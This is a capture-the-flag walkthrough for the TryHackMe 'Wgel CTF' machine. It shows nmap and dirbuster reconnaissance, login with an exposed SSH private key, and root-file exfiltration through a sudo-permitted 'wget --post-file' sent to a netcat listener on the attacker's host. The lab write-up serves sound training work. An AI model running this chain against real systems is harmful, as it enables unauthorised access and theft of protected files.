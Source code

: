 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

`Machine's IP - 10.10.33.168`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.33.168 -Pn > nmap-wgel.log`

# Analyzing Information and Risks


```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-18 21:23 Central Standard Time (Mexico)
Nmap scan report for 10.10.33.168
Host is up (0.60s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.68 seconds
```

Realizing that `SSH` was open, I went to the website to see if maybe we can get some credentials or a key. Upon entering `http://10.10.33.168/` I noticed that it was the default starting template for Apache2. The strange thing was that the listing was wrong, look:

```bash
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 
          
```

If you've used Apache2 before, you'd know something was wrong, so I viewed the source file and found this:

```
 <!-- Jessie don't forget to udate the webiste -->
```

So, we can guess the user is `Jessie`.

Using dirbuster, I was able to find `http://10.10.33.168/sitemap/`. Here, I decided to try getting an indexing page and stumbled upon `http://10.10.33.168/sitemap/.ssh/` which gave me an `id_rsa`. Quickly, I downloaded the key and prepared myself for SSH login.

First, I renamed the file to match with the user \
`mv id_rsa.txt id_jessie`

Secondly, I changed the permissions of the file \
`chmod 600 id_jessie`

Finally, I got in `ssh -i id_jessie jessie@10.10.33.168` and had a console. 

Once inside, I looked for the `user.txt`.

```bash
jessie@CorpOne:~$ find | grep flag
./Documents/user_flag.txt
jessie@CorpOne:~$ cat ~/Documents/user_flag.txt
********************************
```

I tried to enumerate my permissions after that with `sudo -l` and noticed something strange but interesting

```bash
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Once read that, I immediately opened a new tab and went to [GTFOBins](https://gtfobins.github.io/) and searched for `wget`. Here, I was bestowed upon me the following command

```bash
wget --post-file=$LFILE $URL
```

I got another tab in bash open, started a `Netcat` listener

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
```

On my SSH key I ran the following command

```bash
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.6.20.112:4445/
--2020-11-19 05:47:41--  http://10.6.20.112:4445/
Connecting to 10.6.20.112:4445... connected.
```

And just like that, I got the `root.txt`

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.6.20.112] from (UNKNOWN) [10.10.33.168] 43532
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.6.20.112:4445
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

********************************
```

## License
[MIT](https://choosealicense.com/licenses/mit/)